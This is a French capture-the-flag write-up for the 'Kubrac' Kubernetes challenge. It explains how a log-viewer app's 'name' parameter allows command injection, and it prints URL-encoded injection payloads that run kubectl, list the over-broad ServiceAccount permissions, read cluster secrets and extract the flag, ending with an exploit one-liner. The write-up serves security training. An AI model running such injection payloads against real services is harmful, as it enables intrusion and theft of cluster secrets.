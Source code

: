 # Write-Up - Infra / Kubrac

L'objectif du challenge Kubrac est de se questionner sur la sécurité des applications Kubernetes utilisant des politiques RBAC. Beaucoup d'applications ont besoin de communiquer avec l'api-server du cluster pour monitorer (e.g. Prometheus Exporter), déployer des ressources à la volée (e.g. ArgoCD), ...

Dans ce contexte, Kubrac expose une petite application permettant de parcourir les logs des pods du namespace dans lequel il est déployé, grâce à un ServiceAccount. Toutefois ce ServiceAccount a mal été fait, et possède beaucoup trop de permissions, en particulier pour lire d'autres ressources que les logs des conteneurs de Pods. En effet, lors du debug, il est fréquent de faire un petit `kubectl get all` pour savoir si tout va bien !

En plus de cela, l'application est vulnérable à de la _command injection_ ([CWE-77](https://cwe.mitre.org/data/definitions/77.html)) sur le nom du conteneur...

## Reconnaissance de l'application

On observe rapidement qu'il existe 2 endpoints API:
- `GET /api/v1/containers` qui retourne la liste des conteneurs du namespace
- `GET /api/v1/logs?name=<name>` qui retourne les logs du conteneur donné

En soumettant autre chose qu'un nom de conteneur (en modifiant le HTML local ou en modifiant la requête), on va voir que l'application se comporte bizarrement.

On comprend assez vite que l'application semble injecter le `name` dans une commande kubectl, que l'on valide avec l'envoi d'un `name=-h`.
```bash
$ curl -s "http://localhost:8081/api/v1/logs?name=-h" | jq -r '.data'
```

<details>
<summary>Example</summary>

```bash
$ curl -s "http://localhost:8081/api/v1/logs?name=flip;flop" | jq -r '.data'
error: expected 'logs [-f] [-p] (POD | TYPE/NAME) [-c CONTAINER]'.
POD or TYPE/NAME is a required argument for the logs command
See 'kubectl logs -h' for help and examples
```

</details>

## Injection de commande

Pour facilement injecter des commandes et limiter le bruit, on va donc escape la commande précédente avec `>/dev/null 2>&1 ||true;`. On pourra ainsi soumettre n'importe quelle commande sans avoir à s'inquiéter du comportement de la commande précédente. D'ailleurs, on se rend compte que la commande injectée se termine par `--tail=20`, on ajoute donc le suffixe `;#`, toujours pour retirer le bruit.

Pour injecter notre payload, il va falloir l'encoder. On peut utiliser un site pour cela: [Meyerweb URL Decoder/Encoder](https://meyerweb.com/eric/tools/dencoder/)

Vu que la réponse est un JSON, on va manipuler le résultat sous la forme `{"data":"..."}` avec `jq` en faisant `curl -s ... | jq -r '.data'`.

## Reconnaissance Kubernetes

Pour reconnaître un peu plus l'environnement, on exécute un `kubectl get all`.

<details>
<summary>Example</summary>

Payload: `>/dev/null 2>&1 ||true; kubectl get all;#`

Encoded: `%3E%2Fdev%2Fnull%202%3E%261%20%7C%7Ctrue%3B%20kubectl%20get%20all%3B%23`

Call:
```bash
$ curl -s http://a0b1c2d3.24hiut25.ctfer.io/api/v1/logs?name=%3E%2Fdev%2Fnull%202%3E%261%20%7C%7Ctrue%3B%20kubectl%20get%20all%3B%23 | jq -r '.data'
NAME                                           READY   STATUS    RESTARTS   AGE
pod/monitoring-dep-8cae9fe2-687777959c-8xz2l   1/1     Running   0          30s
pod/popacola-merch-179c01e2-5d896ff7d9-7r4h6   1/1     Running   0          30s

NAME                              TYPE        CLUSTER-IP   EXTERNAL-IP   PORT(S)    AGE
service/monitoring-svc-f239123c   ClusterIP   None         <none>        8080/TCP   28s

NAME                                      READY   UP-TO-DATE   AVAILABLE   AGE
deployment.apps/monitoring-dep-8cae9fe2   1/1     1            1           30s
deployment.apps/popacola-merch-179c01e2   1/1     1            1           30s

NAME                                                 DESIRED   CURRENT   READY   AGE
replicaset.apps/monitoring-dep-8cae9fe2-687777959c   1         1         1       30s
replicaset.apps/popacola-merch-179c01e2-5d896ff7d9   1         1         1       30s
```

</details>

On reconnaît l'environnement que le _log viewer_ nous montrait. Toutefois, nous voulons savoir ce à quoi nous avons accès afin de trouver notre bonheur !

Pour ce faire, on injecte la commande `kubectl auth can-i --list`.

```bash
$ curl -s http://a0b1c2d3.24hiut25.ctfer.io/api/v1/logs?name=%3E%2Fdev%2Fnull%202%3E%261%20%7C%7Ctrue%3B%20kubectl%20auth%20can-i%20--list%3B%23 | jq -r ".data"
Resources                                       Non-Resource URLs                      Resource Names   Verbs
selfsubjectreviews.authentication.k8s.io        []                                     []               [create]
selfsubjectaccessreviews.authorization.k8s.io   []                                     []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                                     []               [create]
configmaps                                      []                                     []               [get list]
pods/log                                        []                                     []               [get list]
pods                                            []                                     []               [get list]
replicationcontrollers                          []                                     []               [get list]
secrets                                         []                                     []               [get list]
services                                        []                                     []               [get list]
daemonsets.apps                                 []                                     []               [get list]
deployments.apps                                []                                     []               [get list]
replicasets.apps                                []                                     []               [get list]
statefulsets.apps                               []                                     []               [get list]
horizontalpodautoscalers.autoscaling            []                                     []               [get list]
cronjobs.batch                                  []                                     []               [get list]
jobs.batch                                      []                                     []               [get list]
..... (truncated)
```

On se rend compte que pour une raison obscure (probablement du debug) on a accès en lecture aux secrets. On va donc les lister avec `kubectl get secret`.

```bash
$ curl -s http://a0b1c2d3.24hiut25.ctfer.io/api/v1/logs?name=%3E%2Fdev%2Fnull%202%3E%261%20%7C%7Ctrue%3B%20kubectl%20get%20secret%3B%23 | jq -r ".data"
NAME            TYPE     DATA   AGE
flag-2b3b469a   Opaque   2      10m
```

Avec un seul secret, on va aller lire son contenu avec `kubectl describe secret/flag-2b3b469a`.

```bash
$ curl -s http://a0b1c2d3.24hiut25.ctfer.io/api/v1/logs?name=%3E%2Fdev%2Fnull%202%3E%261%20%7C%7Ctrue%3B%20kubectl%20describe%20secret%2Fflag-2b3b469a%3B%23 | jq -r ".data"
Name:         flag-2b3b469a
Namespace:    ns-48e1560f
Labels:       app.kubernetes.io/component=kubrac
              app.kubernetes.io/name=monitoring
              app.kubernetes.io/part-of=kubrac
Annotations:  pulumi.com/autonamed: true

Type:  Opaque

Data
====
top-secret:  28 bytes
flag:        66 bytes
```

On va aller chercher l'attribut `flag`, qui semble être ce que nous cherchons, avec `kubectl get secret/flag-2b3b469a --template={{.data.flag}}`.

```bash
$ curl -s http://a0b1c2d3.24hiut25.ctfer.io/api/v1/logs?name=%3E%2Fdev%2Fnull%202%3E%261%20%7C%7Ctrue%3B%20kubectl%20get%20secret%2Fflag-2b3b469a%20--template%3D%7B%7B.data.flag%7D%7D%3B%23 | jq -r ".data" | base64 -d
24hIUT{KubÉ®nétE5 rbã¢ å®3-p¤WÊRFùll BÙt-ÐÂNgë®ouS}
```

## TL;DR;

One-liner pour exploit l'injection de command et les permissions trop large du ServiceAccount.

```bash
curl -s http://a0b1c2d3.24hiut25.ctfer.io/api/v1/logs?name=%3E%2Fdev%2Fnull%202%3E%261%20%7C%7Ctrue%3B%20kubectl%20get%20%22secret%2F%24(kubectl%20get%20secret%20-o%20jsonpath%3D%27%7B.items%5B*%5D.metadata.name%7D%27)%22%20--template%3D%7B%7B.data.flag%7D%7D%7Cbase64%20-d%3B%23 | jq -r '.data'
```

On peut se faire un petit soft dans son langage favori et faire un alias sur `kubectl` pour directement faire nos calls depuis la CLI.

On peut récupérer l'attribut `top-secret` avec `kubectl get secret/flag-2b3b469a --template='{{ index .data "top-secret"}}' | base64 -d` mais on se fait Rick Roll...
